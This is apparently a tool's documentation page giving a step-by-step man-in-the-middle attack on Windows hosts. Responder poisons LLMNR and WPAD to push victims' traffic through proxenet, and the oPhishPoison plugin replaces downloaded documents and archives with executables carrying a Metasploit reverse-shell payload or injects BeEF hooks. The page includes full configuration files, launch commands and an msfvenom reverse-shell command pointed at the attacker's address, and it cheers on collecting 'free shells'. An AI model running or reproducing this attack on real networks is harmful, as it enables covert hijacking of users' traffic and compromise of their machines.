

# Proxenet-In-The-Middle attack #

`proxenet` can also be used to deliver automated payloads via a
Man-in-the-Middle attack. This can be done with the help of the awesome [Responder](https://github.com/SpiderLabs/Responder) tool, in two easy steps.


## Network setup ##

In this example, We will target Windows hosts on the network `192.168.56.0/24`. Our evil box will be
located at `192.168.56.1`.

Let's do this.


## Responder setup ##

We will use `Responder` to spoof NetBIOS packets and poison local network
Windows workstation WPAD configuration, and redirect traffic to our evil box. The configuration is
very simple, as we only need to use poisoning feature of `Responder`.

**_Note_**: I used _jrmdev_ version of `Responder` because it is way cleaner
that the master version from SpiderLabs, and has better support for WPAD and
proxy forwarding. You can clone it from GitHub:

```
$ git clone https://github.com/jrmdev/Responder.git
$ cd Responder && git checkout -b remotes/origin/responder-refactoring
```

We only want to use the LLMNR and WPAD functionalities, so we will disable all
the rest. Simply set it up with the following configuration:
```
[Responder Core]
SQL = Off
SMB = Off
Kerberos = Off
FTP = Off
POP = Off
SMTP = Off
IMAP = Off
HTTP = On
HTTPS = Off
DNS = Off
LDAP = Off
Challenge = 1122334455667788
Database = Responder.db
SessionLog = Responder-Session.log
PoisonersLog = Poisoners-Session.log
AnalyzeLog = Analyzer-Session.log
RespondTo =
RespondToName = WPAD
DontRespondTo =
DontRespondToName =

[HTTP Server]
Serve-Always = Off
Serve-Exe = Off
Serve-Html = Off
HtmlFilename = files/AccessDenied.html
ExeFilename = files/BindShell.exe
ExeDownloadName = ProxyClient.exe
WPADScript = function FindProxyForURL(url, host){ return 'PROXY 192.168.56.1:8008';} ; change this address to your situation
HTMLToInject = <h1>pwn</h1>

[HTTPS Server]
SSLCert = certs/responder.crt
SSLKey = certs/responder.key
```

And just run it to forward to our `proxenet` (which will be listening on
`192.168.56.1:8008` - see proxenet setup below).
```
sudo python2 Responder.py -v -I vboxnet0 -w
```

`Responder` will now poison all the requests to our `proxenet` process.


## proxenet setup ##

Create or edit the `proxenet` plugin configuration file, `$HOME/.proxenet.ini`
with the following sections.
```
[oPhishPoison]
; This should point to the payload to be inserted as the HTTP response.
; For example:
; msfvenom -p windows/reverse_tcp_shell -f raw -b '\x0d\x0a\x00\xff' -o mypayload LHOST=192.168.56.1 LPORT=4444
msfpayload   = %(home)s/tmp/my_payload

; Point to Python binary
python       = /usr/bin/python2.7

; Download https://gist.github.com/hugsy/18aa43255fd4d905a379#file-xor-payload-py
; and copy its path to this configuration script.
xor_payload  = %(home)s/code/xor-payload/xor-payload.py

; This should point to the HTML page to inject every time a user fetches
; any HTML page
html_inject_stub = %(home)s/tmp/injected_page.html
```
The `html_inject_stub` option can be used also to easily inject your BeEF hooks
too.

The plugin `oPhishPoison.py` (available in the `proxenet-plugins` GitHub
repository) will deal with the substitution of the traffic the way you want.
You can insert any Metasploit Framework payload or an HTA page. The choice is
yours!

Add the plugin `oPhishPoison.py` to the autoload directory of `proxenet` and
start it.
```
$ ln -sf proxenet-plugins/oPhishPoison.py proxenet-plugins/autoload/oPhishPoison.py
$ ./proxenet -b 192.168.56.1 -p 8008 -i -N
```

Adding the `-N` option disables the SSL interception and make it stealthier. The
`-i` option forces `proxenet` to use the Internet Explorer compatibility mode.

From the moment `proxenet` and `Responder` are configured and running, fake LLMNR
and WPAD responses will be sent to the victims. By default, the `oPhishPoison`
plugin will replace known binary content types (such as Office documents, ZIP
files, RAR archives, etc.) with PE executables containing your payloads.

When `Responder` poisons the LLMNR request for WPAD, it will redirect the
victim to fetch the PAC configuration from itself.


After that, **every** HTTP request from this victim will go through `proxenet`.
You will very soon see this kind of message appearing on your screen:


This indicates that the attack was successful. From now, just wait for the
shells ☺

## What's next?

Literally, nothing! The MitM will operate in a totally transparent way, that's
the beauty of it.

   1. The Windows hosts of the victims will get poisoned by `Responder` to point
   the WPAD NetBios name to our hosts.
   2. Browsers setup in "Auto-configuration" mode are vulnerable.
   3. Every HTTP request will go through `proxenet` and the response will be
   poisoned with whatever content you setup.
   4. Enjoy the free shells !


## Live demo

Click [here](https://vid.me/ntWe) for a live demo.
